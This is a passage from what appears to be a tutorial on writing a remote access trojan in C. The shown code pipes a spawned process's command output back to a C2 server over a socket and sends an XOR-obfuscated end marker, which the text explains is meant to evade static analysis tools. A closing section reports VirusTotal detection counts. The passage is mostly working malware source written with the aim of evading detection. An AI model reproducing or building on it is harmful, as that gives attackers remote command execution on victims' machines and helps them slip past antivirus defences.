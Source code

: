 ```c
if (success) {
	CloseHandle(hWrite); // Only read from here

	char buffer[BUFFER_SIZE];
	DWORD bytesRead;
	
	while (ReadFile(hRead, buffer, BUFFER_SIZE - 1, &bytesRead, NULL) && bytesRead > 0) {
		buffer[bytesRead] = '\0';
		send(sock, buffer, bytesRead, 0);
	}

	CloseHandle(hRead);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
} else {
	char* errorMsg = "ERROR.\n";
	send(sock, errorMsg, strlen(errorMsg), 0);
}
```

Finally, we send an "end marker" to the C2 server. Just like we did with the IP address, we encrypt this marker using XOR to make it harder for static analysis tools to detect. The encrypted data is then sent though the socket.

```c
// End mark ---> "<END>"
unsigned char encrypted_end[] = { 0x96 ^ K0, 0xEF ^ K0, 0xE4 ^ K0, 0xEE ^ K0, 0x94 ^ K0};

send(sock, (const char*)encrypted_end, 5, 0);
```

## Virustotal

The amount of detections in Virustotal are the following:

![Virustotal Capture](../assets/posts/virustotal-rat.png)
